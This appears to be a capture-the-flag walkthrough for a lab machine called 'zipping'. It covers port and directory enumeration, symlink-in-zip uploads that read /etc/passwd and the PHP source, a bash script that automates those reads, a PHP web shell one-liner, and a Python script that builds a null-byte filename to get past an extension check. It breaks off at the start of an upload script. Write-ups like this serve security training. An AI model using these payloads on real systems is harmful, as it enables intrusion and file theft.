

# zipping

| Hostname   | Difficulty |
| ---        | ---        |
| zipping    | Medium           |

Machine IP: 10.10.11.229 :

```shell
TARGET=10.10.11.229       # zipping IP address
```

## Initial Reconnaissance

### Ports and services

Scan for open ports :

```shell
nmap -p- $TARGET --open
```

```text
Nmap scan report for 10.10.11.229
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
Nmap done: 1 IP address (1 host up) scanned in 11.83 seconds
```

Scan deeper on that port 80 :

```shell
nmap -p 80 $TARGET -sC -sV -A
```

```text
Nmap scan report for 10.10.11.229
Host is up (0.019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   18.58 ms 10.10.14.1
2   18.69 ms 10.10.11.229

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.34 seconds
```

### Web service - port 80

Let's start by identifying this application :

```shell
whatweb $TARGET
```

```text
[http://10.10.11.229](http://10.10.11.229/) [200 OK] Apache[2.4.54], Bootstrap, Country[RESERVED][ZZ], Email[info@website.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.54 (Ubuntu)], IP[10.10.11.229], JQuery[3.4.1], Meta-Author[Devcrud], PoweredBy[precision], Script, Title[Zipping | Watch store]
```

There is no specific hostname at this point.

Let's continue by by enumerating directory entries :

```shell
USERAGENT="PENTEST"
WORDLIST_DIR=/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
ffuf -H "User-Agent: ${USERAGENT}" -c -w "${WORDLIST_DIR}" -maxtime-job 60 -recursion -recursion-depth 2 -u "http://${TARGET}/FUZZ"
```

```text
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.229/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Header           : User-Agent: PENTEST
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 16ms]
[INFO] Adding a new job to the queue: http://10.10.11.229/uploads/FUZZ

shop                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 17ms]
[INFO] Adding a new job to the queue: http://10.10.11.229/shop/FUZZ

assets                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 17ms]
[INFO] Adding a new job to the queue: http://10.10.11.229/assets/FUZZ

server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 16ms]
                        [Status: 200, Size: 16738, Words: 5717, Lines: 318, Duration: 18ms]
[INFO] Starting queued job on target: http://10.10.11.229/uploads/FUZZ

                        [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 17ms]
[INFO] Starting queued job on target: http://10.10.11.229/shop/FUZZ

assets                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 17ms]
[INFO] Adding a new job to the queue: http://10.10.11.229/shop/assets/FUZZ

                        [Status: 200, Size: 2615, Words: 811, Lines: 68, Duration: 26ms]
[INFO] Starting queued job on target: http://10.10.11.229/assets/FUZZ

js                      [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 20ms]
[INFO] Adding a new job to the queue: http://10.10.11.229/assets/js/FUZZ

css                     [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 20ms]
[INFO] Adding a new job to the queue: http://10.10.11.229/assets/css/FUZZ

imgs                    [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 17ms]
[INFO] Adding a new job to the queue: http://10.10.11.229/assets/imgs/FUZZ

vendors                 [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 17ms]
[INFO] Adding a new job to the queue: http://10.10.11.229/assets/vendors/FUZZ

                        [Status: 200, Size: 1691, Words: 112, Lines: 21, Duration: 19ms]
[INFO] Starting queued job on target: http://10.10.11.229/shop/assets/FUZZ

imgs                    [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 16ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.11.229/shop/assets/imgs/
                        [Status: 200, Size: 1142, Words: 73, Lines: 18, Duration: 18ms]
[INFO] Starting queued job on target: http://10.10.11.229/assets/js/FUZZ

                        [Status: 200, Size: 968, Words: 62, Lines: 17, Duration: 19ms]
[INFO] Starting queued job on target: http://10.10.11.229/assets/css/FUZZ

                        [Status: 200, Size: 972, Words: 61, Lines: 17, Duration: 17ms]
[INFO] Starting queued job on target: http://10.10.11.229/assets/imgs/FUZZ

                        [Status: 200, Size: 2768, Words: 149, Lines: 26, Duration: 19ms]
[INFO] Starting queued job on target: http://10.10.11.229/assets/vendors/FUZZ

jquery                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 17ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.11.229/assets/vendors/jquery/
                        [Status: 200, Size: 1366, Words: 88, Lines: 19, Duration: 20ms]
:: Progress: [30000/30000] :: Job [9/9] :: 2380 req/sec :: Duration: [0:00:13] :: Errors: 18 ::
```

There are some interesting folders :

- `uploads`
- `shop`

Now let's browse this web site : [http://10.10.11.229/](http://10.10.11.229/)



When scrolling at the bottom of the page :


There is also a page “Work with us” :

[http://10.10.11.229/upload.php](http://10.10.11.229/upload.php)


This form is aimed at uploading a CV :

```text
The application will only accept zip files, inside them there must be a pdf file containing your curriculum.
```


let’s try to upload a zip file :

```shell
wget -q http://10.10.11.229/assets/imgs/header.jpg
mv header.jpg header.jpg.pdf
zip cv.zip header.jpg.pdf
```

Then upload cv.zip


The link provided : 
[http://10.10.11.229/uploads/3d395417744dd37f4b63c93a27265ea8/header.jpg.pdf](http://10.10.11.229/uploads/3d395417744dd37f4b63c93a27265ea8/header.jpg.pdf)

This file goes into the `uploads` folder previously discovered.

## Initial access

### Exploitation - zipping

Let’s try to exploit this file upload !

Reference: [https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload)

We can try to upload a zip file containing a link, with a relative path :


```
rm cv.*
ln -sf ../upload.php cv.pdf
zip --symlinks cv.zip cv.pdf
```

This do not work. Let's try with an absolute path :

```shell
rm cv.*
ln -sf /etc/passwd cv.pdf
zip --symlinks cv.zip cv.pdf
```

This works, and we can download the file with :

```
curl -v http://$TARGET/uploads/d8c9023426049da7c56c5b502f7c154c/cv.pdf
```

We have found a LFI vulnerability :

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

We can note a user :

```text
rektsu:x:1001:1001::/home/rektsu:/bin/bash
```

There is also a mysql user, so a mysql service should be running.

We can continue to get some file content with an absolute path, based on default path served by Apache httpd :

```shell
rm cv.*
ln -sf /var/www/html/upload.php cv.pdf
zip --symlinks cv.zip cv.pdf
```

The uploads is working and we can download the file with :

```shell
curl -v http://$TARGET/uploads/b5bcc5e3985b468a4c4424543d37e676/cv.pdf
```

```php
<html>
<html lang="en">
<head>
        <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="Start your development with Creative Design landing page.">
    <meta name="author" content="Devcrud">
    <title>Zipping | Watch store</title>

    <!-- font icons -->
    <link rel="stylesheet" href="assets/vendors/themify-icons/css/themify-icons.css">

    <!-- Bootstrap + Creative Design main styles -->
        <link rel="stylesheet" href="assets/css/creative-design.css">

</head>
<body data-spy="scroll" data-target=".navbar" data-offset="40" id="home">
    <!-- Page Header -->
    <header class="header header-mini">
      <div class="header-title">Work with Us</div>
      <nav aria-label="breadcrumb">
         <ol class="breadcrumb">
            <li class="breadcrumb-item"><a href="index.php">Home</a></li>
            <li class="breadcrumb-item active" aria-current="page">Work with Us</li>
         </ol>
      </nav>
    </header> <!-- End Of Page Header -->

    <section id="work" class="text-center">
        <!-- container -->
        <div class="container">
            <h1>WORK WITH US</h1>
            <p class="mb-5">If you are interested in working with us, do not hesitate to send us your curriculum.<br> The application will only accept zip files, inside them there must be a pdf file containing your curriculum.</p>

            <?php
            if(isset($_POST['submit'])) {
              // Get the uploaded zip file
              $zipFile = $_FILES['zipFile']['tmp_name'];
              if ($_FILES["zipFile"]["size"] > 300000) {
                echo "<p>File size must be less than 300,000 bytes.</p>";
              } else {
                // Create an md5 hash of the zip file
                $fileHash = md5_file($zipFile);
                // Create a new directory for the extracted files
                $uploadDir = "uploads/$fileHash/";
                $tmpDir = sys_get_temp_dir();
                // Extract the files from the zip
                $zip = new ZipArchive;
                if ($zip->open($zipFile) === true) {
                  if ($zip->count() > 1) {
                  echo '<p>Please include a single PDF file in the archive.<p>';
                  } else {
                  // Get the name of the compressed file
                  $fileName = $zip->getNameIndex(0);
                  if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
                    $uploadPath = $tmpDir.'/'.$uploadDir;
                    echo exec('7z e '.$zipFile. ' -o' .$uploadPath. '>/dev/null');
                    if (file_exists($uploadPath.$fileName)) {
                      mkdir($uploadDir);
                      rename($uploadPath.$fileName, $uploadDir.$fileName);
                    }
                    echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="'.$uploadDir.$fileName.'">'.$uploadDir.$fileName.'</a>'.'</p>';
                  } else {
                    echo "<p>The unzipped file must have  a .pdf extension.</p>";
                  }
                 }
                } else {
                  echo "Error uploading file.";
                }

              }
            }
            ?>

            <!-- Submit File -->
            <form id="zip-form" enctype="multipart/form-data" method="post" action="upload.php">
              <div class="mb-3">
                <input type="file" class="form-control" name="zipFile" accept=".zip">
              </div>
              <button type="submit" class="btn btn-primary" name="submit">Upload</button>
            </form><!-- End submit file -->

        </div><!-- End of Container-->
    </section><!-- End of Contact Section -->
    <!-- Section -->
    <section class="pb-0">
        <!-- Container -->
        <div class="container">
            <!-- Pre footer -->
            <div class="pre-footer">
                <ul class="list">
                    <li class="list-head">
                        <h6 class="font-weight-bold">ABOUT US</h6>
                    </li>
                    <li class="list-body">
                      <p>Zipping Co. is a company that is dedicated to producing high-quality watches that are both stylish and functional. We are constantly pushing the boundaries of what is possible with watch design and are known for their commitment to innovation and customer service.</p>
                      <a href="#"><strong class="text-primary">Zipping</strong> <span class="text-dark">Watch Store</span></a>
                    </li>
                </ul>
                <ul class="list">
                    <li class="list-head">
                        <h6 class="font-weight-bold">USEFUL LINKS</h6>
                    </li>
                    <li class="list-body">
                        <div class="row">
                            <div class="col">
                                <a href="#">Link 1</a>
                                <a href="#">Link 2</a>
                                <a href="#">Link 3</a>
                                <a href="#">Link 4</a>
                            </div>
                            <div class="col">
                                <a href="#">Link 5</a>
                                <a href="#">Link 6</a>
                                <a href="#">Link 7</a>
                                <a href="#">Link 8</a>
                            </div>
                        </div>
                    </li>
                </ul>
                <ul class="list">
                    <li class="list-head">
                        <h6 class="font-weight-bold">CONTACT INFO</h6>
                    </li>
                    <li class="list-body">
                        <p>Contact us and we'll get back to you within 24 hours.</p>
                        <p><i class="ti-location-pin"></i> 12345 Fake ST NoWhere AB Country</p>
                        <p><i class="ti-email"></i>  info@website.com</p>
                        <div class="social-links">
                            <a href="javascript:void(0)" class="link"><i class="ti-facebook"></i></a>
                            <a href="javascript:void(0)" class="link"><i class="ti-twitter-alt"></i></a>
                            <a href="javascript:void(0)" class="link"><i class="ti-google"></i></a>
                            <a href="javascript:void(0)" class="link"><i class="ti-pinterest-alt"></i></a>
                            <a href="javascript:void(0)" class="link"><i class="ti-instagram"></i></a>
                            <a href="javascript:void(0)" class="link"><i class="ti-rss"></i></a>
                        </div>
                    </li>
                </ul>
            </div><!-- End of Pre footer -->

            <!-- foooter -->
            <footer class="footer">
                <p>Made by <a href="https://github.com/xdann1">xDaNN1</p>
            </footer><!-- End of Footer-->

        </div><!--End of Container -->
    </section><!-- End of Section -->

</body>
</html>
```

And same with `index.php` file :

```shell
rm cv.*
ln -sf /var/www/html/index.php cv.pdf
zip --symlinks cv.zip cv.pdf
```

```php
<!DOCTYPE html>
<html lang="en">
<head>
        <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="Start your development with Creative Design landing page.">
    <meta name="author" content="Devcrud">
    <title>Zipping | Watch store</title>

    <!-- font icons -->
    <link rel="stylesheet" href="assets/vendors/themify-icons/css/themify-icons.css">

    <!-- Bootstrap + Creative Design main styles -->
        <link rel="stylesheet" href="assets/css/creative-design.css">

</head>
<body data-spy="scroll" data-target=".navbar" data-offset="40" id="home">

    <!-- Page Navbar -->
    <nav id="scrollspy" class="navbar page-navbar navbar-light navbar-expand-md fixed-top" data-spy="affix" data-offset-top="20">
        <div class="container">
            <a class="navbar-brand" href="#"><strong class="text-primary">Zipping</strong> <span class="text-dark">Watch Store</span></a>
            <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
                <span class="navbar-toggler-icon"></span>
            </button>

            <div class="collapse navbar-collapse" id="navbarSupportedContent">
                <ul class="navbar-nav ml-auto">
                    <li class="nav-item">
                        <a class="nav-link" href="#home">Home</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#about">About</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#features">Features</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#testmonial">Testmonial</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="shop">Shop</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#contact">Contact</a>
                    </li>
                    <li class="nav-item ml-md-4">
                        <a class="nav-link btn btn-primary" href="upload.php">Work with Us</a>
                    </li>
                </ul>
            </div>
        </div>
    </nav><!-- End of Page Navbar -->

    <!-- Page Header -->
    <header id="home" class="header">
        <div class="overlay"></div>
        <div class="header-content">
            <h6>Watch Store</h6>
        </div>
    </header><!-- End of Page Header -->

    <!-- About Section -->
    <section id="about">
        <!-- Container -->
        <div class="container">
            <!-- About wrapper -->
            <div class="about-wrapper">
                <div class="after"><h1>About Us</h1></div>
                <div class="content">
                    <h5 class="title mb-3">Zipping Company</h5>
                    <!-- row -->
                    <div class="row">
                        <div class="col">
                            <p>Zipping Co. is a leading manufacturer of high-quality watches for men and women. Founded in 1980, the company has built a reputation for crafting timepieces that combine classic design with modern technology.</p>
                            <p><b>Innovation, Elegant, Sophisticated and Luxurious</b></p>
                            <p>Our watches are made with the finest materials, including stainless steel, leather, and sapphire crystal, and are powered by precision quartz and mechanical movements. We offer a wide range of styles, from sporty and casual to elegant and formal, ensuring that there is a watch for every occasion.</p>
                        </div>
                        <div class="col">
                            <p>One of the things that sets Zipping Co. apart is their commitment to innovation. We are constantly pushing the boundaries of what is possible with watch design, incorporating cutting-edge features like GPS, heart rate monitoring, and mobile connectivity into their products.</p>
                            <p>In addition to their regular collection, Zipping Co. also offers a line of limited edition watches, which are highly sought after by collectors and enthusiasts. These watches are crafted in small quantities and feature unique designs and materials.</p>
                        </div>
                    </div><!-- End of Row -->
                    <a href="javascript:void(0)">Read More...</a>
                </div>
            </div><!-- End of About Wrapper -->
        </div>  <!-- End of Container-->
     </section><!--End of Section -->

    <!-- section -->
    <section>
        <!-- Container -->
        <div class="container">
            <!-- row -->
            <div class="row justify-content-between align-items-center">
                <div class="col-md-6">
                    <div class="img-wrapper">
                        <div class="after"></div>
                        
                    </div>
                </div>
                <div class="col-md-5">
                    <h6 class="title mb-3">Customer Service</h6>
                    <p>Zipping Co. is dedicated to providing excellent customer service, and offers a two-year warranty on all of their watches. They also have a team of expert watchmakers who are available to repair and service any Zipping Co. watch.</p>
                    <p class="text-muted">The most important thing for us is you!</p>
                    <button class="btn btn-outline-primary btn-sm">Learn More</button>
                </div>
            </div>
            <!-- End of Row -->
        </div>
        <!-- End of Container -->
    </section><!-- End of Section -->

    <section>
        <!-- Container -->
        <div class="container">
            <!-- Row -->
            <div class="row justify-content-between align-items-center">
                <div class="col-md-5">
                    <h6 class="title mb-3">Business</h6>
                    <p>The future of Zipping Co. looks promising, with the company well-positioned to meet the changing needs and preferences of consumers in the smartwatch and customization market, as well as expanding to new markets.</p>
                    <p class="text-muted">We are open to new business offers, do not hesitate to contact us!</p>
                    <button class="btn btn-outline-primary btn-sm">Learn More</button>

                </div>
                <div class="col-md-6">
                    <div class="img-wrapper">
                        <div class="after right"></div>
                        
                    </div>
                </div>
            </div><!-- End of Row -->
        </div><!-- End of Container-->
    </section><!-- End of Section -->

    <!-- Features Section -->
    <section class="has-bg-img" id="features">
        <div class="overlay"></div>
        <!-- Button trigger modal -->
        <a data-toggle="modal" href="#exampleModalCenter">
            <i></i>
        </a>

        <!-- Modal -->
        <div class="modal fade" id="exampleModalCenter" tabindex="-1" role="dialog" aria-labelledby="exampleModalCenterTitle" aria-hidden="true">
            <div class="modal-dialog modal-dialog-centered modal-lg" role="document">
                <div class="modal-content">
                </div>
            </div>
        </div><!-- End of Modal -->
    </section><!-- End of features Section -->

    <!-- Section -->
    <section>
        <!-- Container -->
        <div class="container">
            <!-- Row -->
            <div class="row justify-content-between align-items-center">
                <div class="col-md-6">
                    <div class="img-wrapper">
                        <div class="after"></div>
                        
                    </div>
                </div>
                <div class="col-md-5">
                    <h6 class="title mb-3">Marketing Strategy</h6>

                    <p>We focus on emphasizing the high-quality and innovative features of our watches, leveraging customer reviews, creating a sense of exclusivity around limited edition watches and building a strong social media presence to connect with our customers and build relationships.</p>
                    <button class="btn btn-outline-primary btn-sm">Learn More</button>
                </div>
            </div><!-- End of Row -->
        </div><!-- End of Container-->
    </section><!-- End of Section -->

    <!-- Testmonial Section -->
    <section class="text-center pt-5" id="testmonial">
        <!-- Container -->
        <div class="container">
            <h3 class="mt-3 mb-5 pb-5">What our Client says</h3>
            <!-- Row -->
            <div class="row">
                <div class="col-sm-10 col-md-4 m-auto">
                    <div class="testmonial-wrapper">
                        
                        <h6 class="title mb-3">Adell Smith</h6>
                        <p>I recently purchased a watch from Zipping Co. and I couldn't be happier with my purchase. The watch is elegant and precision, and it's clear that it's been crafted with the finest materials. The customer service was also top-notch - they were very helpful in answering all of my questions and ensuring that I was completely satisfied with my purchase.</p>
                    </div>
                </div>
                <div class="col-sm-10 col-md-4 m-auto">
                    <div class="testmonial-wrapper">
                        
                        <h6 class="title mb-3">John Doe</h6>
                        <p>I am a collector of luxury watches, and Zipping Co.'s limited edition line is absolutely stunning. The designs are unique and sophisticated, and the quality is unmatched. I was also impressed with the warranty and repair service they offer, it gives me peace of mind knowing that my investment is protected. Highly recommended!</p>
                    </div>
                </div>
                <div class="col-sm-10 col-md-4 m-auto">
                    <div class="testmonial-wrapper">
                        
                        <h6 class="title mb-3">Kyle Butler</h6>
                        <p>I was looking for a watch that was both stylish and functional, and Zipping Co.'s collection definitely delivered. The watch I chose is luxurious and has all the features I was looking for, like GPS and heart rate monitoring. I highly recommend Zipping Co. to anyone looking for a high-quality, innovative watch and a great customer service.</p>
                    </div>
                </div>
            </div><!-- end of Row -->
        </div><!-- End of Cotanier -->
    </section><!-- End of Testmonial Section -->

    <!-- Section -->
    <section class="has-bg-img text-center text-light height-auto" style="background-image: url(assets/imgs/bg-img-2.jpg)">
        <h1 class="display-4">LET’S TALK BUSINESS.</h1>
    </section><!-- End of Section -->

    <!-- Contact Section -->
    <section id="contact" class="text-center">
        <!-- container -->
        <div class="container">
            <h1>CONTACT US</h1>
            <p class="mb-5">If you have some Questions or need Help! Please Contact Us! <br>
            We make Cool and Clean Design for your Watch</p>

            <!-- Contact form -->
            <form class="contact-form col-md-11 col-lg-9 mx-auto">
                <div class="form-row">
                    <div class="col form-group">
                        <input type="text" class="form-control" placeholder="Name">
                    </div>
                    <div class="col form-group">
                        <input type="email" class="form-control" placeholder="Email">
                    </div>
                </div>
                <div class="form-group">
                    <textarea name="" id="" cols="30" rows="5" class="form-control" placeholder="Your Message"></textarea>
                </div>
                <div class="form-group">
                    <input type="submit" class="btn btn-primary btn-block" value="Send Message">
                </div>
            </form><!-- End of Contact form -->
        </div><!-- End of Container-->
    </section><!-- End of Contact Section -->

    <!-- Section -->
    <section class="pb-0">
        <!-- Container -->
        <div class="container">
            <!-- Pre footer -->
            <div class="pre-footer">
                <ul class="list">
                    <li class="list-head">
                        <h6 class="font-weight-bold">ABOUT US</h6>
                    </li>
                    <li class="list-body">
                      <p>Zipping Co. is a company that is dedicated to producing high-quality watches that are both stylish and functional. We are constantly pushing the boundaries of what is possible with watch design and are known for their commitment to innovation and customer service.</p>
                      <a href="#"><strong class="text-primary">Zipping</strong> <span class="text-dark">Watch Store</span></a>
                    </li>
                </ul>
                <ul class="list">
                    <li class="list-head">
                        <h6 class="font-weight-bold">USEFUL LINKS</h6>
                    </li>
                    <li class="list-body">
                        <div class="row">
                            <div class="col">
                                <a href="#">Link 1</a>
                                <a href="#">Link 2</a>
                                <a href="#">Link 3</a>
                                <a href="#">Link 4</a>
                            </div>
                            <div class="col">
                                <a href="#">Link 5</a>
                                <a href="#">Link 6</a>
                                <a href="#">Link 7</a>
                                <a href="#">Link 8</a>
                            </div>
                        </div>
                    </li>
                </ul>
                <ul class="list">
                    <li class="list-head">
                        <h6 class="font-weight-bold">CONTACT INFO</h6>
                    </li>
                    <li class="list-body">
                        <p>Contact us and we'll get back to you within 24 hours.</p>
                        <p><i class="ti-location-pin"></i> 12345 Fake ST NoWhere AB Country</p>
                        <p><i class="ti-email"></i>  info@website.com</p>
                        <div class="social-links">
                            <a href="javascript:void(0)" class="link"><i class="ti-facebook"></i></a>
                            <a href="javascript:void(0)" class="link"><i class="ti-twitter-alt"></i></a>
                            <a href="javascript:void(0)" class="link"><i class="ti-google"></i></a>
                            <a href="javascript:void(0)" class="link"><i class="ti-pinterest-alt"></i></a>
                            <a href="javascript:void(0)" class="link"><i class="ti-instagram"></i></a>
                            <a href="javascript:void(0)" class="link"><i class="ti-rss"></i></a>
                        </div>
                    </li>
                </ul>
            </div><!-- End of Pre footer -->

            <!-- foooter -->
            <footer class="footer">
                <p>&copy; Zipping Watch Store</p>
            </footer><!-- End of Footer-->

        </div><!--End of Container -->
    </section><!-- End of Section -->

    <!-- core  -->
    <script src="assets/vendors/jquery/jquery-3.4.1.js"></script>
    <script src="assets/vendors/bootstrap/bootstrap.bundle.js"></script>

    <!-- bootstrap affix -->
    <script src="assets/vendors/bootstrap/bootstrap.affix.js"></script>

    <!-- Creative Design js -->
    <script src="assets/js/creative-design.js"></script>

</body>
</html>
```

We can automate the process of this LFI with this bash script :

```shell
REMOTE_HTTP_PATH=/var/www/html/

function generate_fake_zip() {
    TargetFile="$1"
    rm cv.zip cv.pdf
    ln -sf "${REMOTE_HTTP_PATH}/${TargetFile}" cv.pdf
    zip --symlinks cv.zip cv.pdf
}

Filenames="../../../etc/passwd index.php upload.php"

for Filename in ${Filenames}; do

    generate_fake_zip $Filename
    Response=""
    Response=$( curl -s --proxy http://127.0.0.1:8080 -X POST -F 'zipFile=@cv.zip' http://${TARGET}/upload.php -F "submit=" )

    UploadItem=""
    UploadItem=$( echo $Response | grep -Eo "uploads\/[a-z0-9]*\/cv.pdf" | head -n 1 )

    #curl -v http://${TARGET}/${UploadItem} 2>&1 ${ORDO_RESULTS}/$(basename $Filename)
    wget http://${TARGET}/${UploadItem} -O ${ORDO_RESULTS}/$(basename $Filename)

done
```

In the `upload.php`, the only protection is a filter on the extension name :

```php
if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
```

We also have the uncompress command that is calling `7z` application :

```php
echo exec('7z e '.$zipFile. ' -o' .$uploadPath. '>/dev/null');
```

The extension check could be bypassed with a null byte : `file.php[null byte].pdf`

Let's use `shell.php`, that will execute a simple command:

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

We can craft `pdf_archiver.py` that will archive this file :

```python
import zipfile

filename = "cv.php"

zipname = "cv.zip"

zipfilename = "cv.phpA.pdf"

with zipfile.ZipFile(zipname, mode='w') as archive:
    archive.write(filename, arcname=zipfilename)
```

Create the archive :

```shell
python3 ./pdf_archiver.py
```

Then upload the zip file :


Using `burpsuite`, repeat the action and intercept POST request :


Switch in Hex mode :


Replace the ‘A’ by ‘00’ in order to introduce a null byt in that filename


Then send the request. The zip file must be accepted :


Automate it with a script `upload.sh` :

```bash
#!/bin/bash

inputZip=/root/cv.zip

